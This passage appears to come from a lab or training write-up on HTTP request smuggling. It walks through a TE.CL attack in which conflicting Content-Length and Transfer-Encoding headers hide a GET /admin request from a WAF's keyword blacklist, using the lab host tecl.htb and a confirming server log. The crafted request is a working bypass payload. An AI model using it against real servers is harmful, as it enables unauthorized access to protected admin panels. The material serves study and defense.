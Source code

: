 - Let's look at the TCP stream to figure out what exactly happened. Let's look at it from the WAF's view first:
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0
```
```http

GET /404 HTTP/1.1
Host: tecl.htb
```
- The WAF uses the TE header to determine the first request's body length. The first chunk contains `0x27` = 39 bytes. The second chunk is the empty chunk which terminates the request. The WAF thus sees two GET requests to `/404`. 
- Since none of these requests contain the blacklisted keyword admin in the URL, the WAF does not block any of the two requests and forwards the bytes via the TCP connection to the web server.
- Now let's look at the TCP stream from the web server's view:
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
```
```http
GET /admin HTTP/1.1
Host: tecl.htb
```
```http
0

GET /404 HTTP/1.1
Host: tecl.htb
```
- The web server uses the CL header to determine the first request's body length. Since the CL header gives a length of 4 bytes, the web server parses the first request up until `27\r\n`. The following data marks the beginning of the next request. 
- So the web server sees three requests in the TCP stream: a GET request to 404 to which it responds with a 404 page since that URL does not exist, a GET request to `/admin` to which it responds with the admin panel, and a third request that has invalid syntax. We can confirm this by looking at the web server log which clearly shows the three requests:
```bash
<SNIP>
[2023-01-27 16:33:38 +0000] [215] [DEBUG] GET /404
[2023-01-27 16:33:38 +0000] [215] [DEBUG] GET /admin
[2023-01-27 16:33:38 +0000] [215] [DEBUG] Invalid request from ip=127.0.0.1: Invalid HTTP request line: ''
<SNIP>
```
- Since we receive the response that contains the admin panel, we successfully bypassed the WAF.


